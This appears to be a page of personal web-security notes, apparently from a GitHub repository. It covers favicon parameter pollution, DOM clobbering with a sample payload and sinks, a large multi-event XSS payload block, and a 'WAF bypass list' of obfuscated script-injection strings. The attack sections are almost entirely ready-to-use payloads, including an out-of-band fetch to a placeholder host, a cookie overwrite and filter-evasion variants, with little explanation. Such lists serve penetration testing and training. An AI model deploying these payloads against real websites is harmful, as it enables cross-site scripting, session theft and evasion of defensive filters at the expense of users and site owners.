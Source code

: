
## Favicon 
- Parameter Pollution
  - <link rel="icon" href="/favicon.ico">
  - <link rel="icon" href="/favicon.ico?theme=dark">
  - /index.html?icon=https://google.com/test.ico
- redirect to trusted resource inside page
- 


## DOM Clobbering
- def - requires an html injection we are using the id that is referenced by the page's original js. In a sense it's like "ID attribute poisoning"

```js
// Payload
<form id=x><output id=y>I've been clobbered</output>

// we are looking for an taking over references like
window.x 

// Sink
<script>alert(x.y.value);</script>

//other sinks 
eval(x.y.value);
document.write('<script>' + x.y.value + '</script>');
innerHTML = x.y.value
```


## the big1 XSS payload
```html
<a href=javascript:confirm(1) onclick=prompt(2)>Click</a>
<img src=x onerror=console.log(3)>
<input type=text onfocus=fetch('[oast]')>
<button onmouseover=document.write(4)>Hover</button>
<div onmousemove=localStorage.setItem('x',5)>storeX</div>
<form onsubmit=sessionStorage.setItem('y',6)>storeY<input type=submit></form>
<video oncanplay=console.error(7)><source src=x>play</video>
<svg onload=document.cookie='test=xss8'></svg>
<marquee onstart=document.location='javascript:alert(1)' onerror=console.info(1)>Test</marquee>
<details ontoggle=navigator.sendBeacon('/log',9)><summary>Click</summary></details>
<iframe src=javascript:open('https://bing.com?xss12')></iframe>
<svg><animate attributeName="x" begin="0s" dur="1s" repeatCount="indefinite" onbegin=console.warn(10)></animate></svg>
<body onresize=console.dir(11)></body>

```

### Big WAF bypass list
```js
<scr<script>ipt>alert(XSS)</scr<script>ipt> 
<sCrIpT>alert(XSS)</sCriPt> //changing the case of the tag
<<script>alert(XSS)</script> //prepending an additional "<"
<script>alert(XSS) // //removing the closing tag
<script>alert`XSS`</script> //using backticks instead of parenetheses
java%0ascript:alert(1) //using encoded newline characters
<iframe src=http://bing.com < //double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> //uncommon tags
<img/src=1/onerror=alert(0)> //bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> //extra characters
Function("ale"+"rt(1)")(); //using uncommon functions besides alert, console.log, and prompt
```